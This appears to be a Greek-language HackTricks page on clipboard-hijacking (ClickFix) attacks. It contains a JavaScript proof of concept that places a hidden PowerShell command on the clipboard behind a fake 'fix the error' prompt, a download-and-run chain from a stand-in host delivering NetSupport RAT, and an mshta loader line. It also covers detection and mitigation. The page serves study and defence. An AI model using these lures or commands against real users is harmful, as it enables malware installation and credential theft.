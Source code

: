 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "Ποτέ μην επικολλάτε οτιδήποτε δεν έχετε αντιγράψει εσείς οι ίδιοι." – παλιά αλλά ακόμα έγκυρη συμβουλή

## Overview

Clipboard hijacking – επίσης γνωστό ως *pastejacking* – εκμεταλλεύεται το γεγονός ότι οι χρήστες συνήθως αντιγράφουν και επικολλούν εντολές χωρίς να τις ελέγχουν. Μια κακόβουλη ιστοσελίδα (ή οποιοδήποτε περιβάλλον που υποστηρίζει JavaScript, όπως μια εφαρμογή Electron ή Desktop) τοποθετεί προγραμματισμένα κείμενο ελεγχόμενο από τον επιτιθέμενο στο σύστημα clipboard. Τα θύματα ενθαρρύνονται, συνήθως μέσω προσεκτικά σχεδιασμένων οδηγιών κοινωνικής μηχανικής, να πατήσουν **Win + R** (διάλογος Εκτέλεσης), **Win + X** (Γρήγορη Πρόσβαση / PowerShell), ή να ανοίξουν ένα τερματικό και να *επικολλήσουν* το περιεχόμενο του clipboard, εκτελώντας αμέσως αυθαίρετες εντολές.

Επειδή **δεν κατεβαίνει κανένα αρχείο και δεν ανοίγει καμία συνημμένη**, η τεχνική παρακάμπτει τους περισσότερους ελέγχους ασφαλείας email και διαδικτυακού περιεχομένου που παρακολουθούν συνημμένα, μακροεντολές ή άμεση εκτέλεση εντολών. Η επίθεση είναι επομένως δημοφιλής σε εκστρατείες phishing που παραδίδουν οικογένειες κακόβουλου λογισμικού όπως NetSupport RAT, Latrodectus loader ή Lumma Stealer.

## JavaScript Proof-of-Concept
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
Οι παλαιότερες εκστρατείες χρησιμοποιούσαν `document.execCommand('copy')`, ενώ οι νεότερες βασίζονται στο ασύγχρονο **Clipboard API** (`navigator.clipboard.writeText`).

## Η Ροή ClickFix / ClearFake

1. Ο χρήστης επισκέπτεται μια typosquatted ή παραβιασμένη ιστοσελίδα (π.χ. `docusign.sa[.]com`)
2. Ο injected **ClearFake** JavaScript καλεί έναν `unsecuredCopyToClipboard()` helper που αποθηκεύει σιωπηλά μια Base64-encoded PowerShell one-liner στο clipboard.
3. Οι HTML οδηγίες λένε στο θύμα να: *“Πατήστε **Win + R**, επικολλήστε την εντολή και πατήστε Enter για να επιλύσετε το πρόβλημα.”*
4. Το `powershell.exe` εκτελείται, κατεβάζοντας ένα αρχείο που περιέχει ένα νόμιμο εκτελέσιμο καθώς και ένα κακόβουλο DLL (κλασικό DLL sideloading).
5. Ο loader αποκρυπτογραφεί επιπλέον στάδια, εισάγει shellcode και εγκαθιστά επιμονή (π.χ. προγραμματισμένο έργο) – τελικά εκτελεί το NetSupport RAT / Latrodectus / Lumma Stealer.

### Παράδειγμα Αλυσίδας NetSupport RAT
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (νόμιμο Java WebStart) αναζητά το κατάλογό του για το `msvcp140.dll`.
* Η κακόβουλη DLL επιλύει δυναμικά APIs με **GetProcAddress**, κατεβάζει δύο δυαδικά αρχεία (`data_3.bin`, `data_4.bin`) μέσω **curl.exe**, τα αποκρυπτογραφεί χρησιμοποιώντας ένα κυλιόμενο κλειδί XOR `"https://google.com/"`, εισάγει τον τελικό shellcode και αποσυμπιέζει το **client32.exe** (NetSupport RAT) στο `C:\ProgramData\SecurityCheck_v1\`.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. Κατεβάζει το `la.txt` με **curl.exe**
2. Εκτελεί τον JScript downloader μέσα στο **cscript.exe**
3. Ανακτά ένα MSI payload → ρίχνει το `libcef.dll` δίπλα σε μια υπογεγραμμένη εφαρμογή → DLL sideloading → shellcode → Latrodectus.

### Lumma Stealer μέσω MSHTA
```
mshta https://iplogger.co/xxxx =+\\xxx
```
Η **mshta** κλήση εκκινεί ένα κρυφό PowerShell script που ανακτά το `PartyContinued.exe`, εξάγει το `Boat.pst` (CAB), ανακατασκευάζει το `AutoIt3.exe` μέσω του `extrac32` & της συγχώνευσης αρχείων και τελικά εκτελεί ένα `.a3x` script που εξάγει τα διαπιστευτήρια του προγράμματος περιήγησης στο `sumeriavgv.digital`.

## Ανίχνευση & Κυνήγι

Οι ομάδες Blue μπορούν να συνδυάσουν την τηλεμετρία clipboard, δημιουργίας διαδικασιών και μητρώου για να εντοπίσουν την κακή χρήση του pastejacking:

* Windows Registry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` διατηρεί ιστορικό εντολών **Win + R** – αναζητήστε ασυνήθιστες εγγραφές Base64 / obfuscated.
* Security Event ID **4688** (Δημιουργία Διαδικασίας) όπου `ParentImage` == `explorer.exe` και `NewProcessName` σε { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }.
* Event ID **4663** για δημιουργίες αρχείων κάτω από `%LocalAppData%\Microsoft\Windows\WinX\` ή προσωρινά φακέλους αμέσως πριν από το ύποπτο γεγονός 4688.
* EDR clipboard sensors (αν υπάρχουν) – συσχετίστε `Clipboard Write` που ακολουθείται αμέσως από μια νέα διαδικασία PowerShell.

## Μετριασμοί

1. Σκληροποίηση προγράμματος περιήγησης – απενεργοποιήστε την πρόσβαση εγγραφής clipboard (`dom.events.asyncClipboard.clipboardItem` κ.λπ.) ή απαιτήστε χειρονομία χρήστη.
2. Ευαισθητοποίηση ασφαλείας – διδάξτε στους χρήστες να *πληκτρολογούν* ευαίσθητες εντολές ή να τις επικολλούν πρώτα σε έναν επεξεργαστή κειμένου.
3. PowerShell Constrained Language Mode / Execution Policy + Application Control για να αποκλείσετε αυθαίρετους one-liners.
4. Δίκτυα ελέγχου – αποκλείστε τις εξερχόμενες αιτήσεις σε γνωστούς τομείς pastejacking και κακόβουλου λογισμικού C2.

## Σχετικά Τέχνασμα

* **Discord Invite Hijacking** συχνά εκμεταλλεύεται την ίδια προσέγγιση ClickFix μετά την παγίδευση χρηστών σε έναν κακόβουλο διακομιστή:
{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## Αναφορές

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}
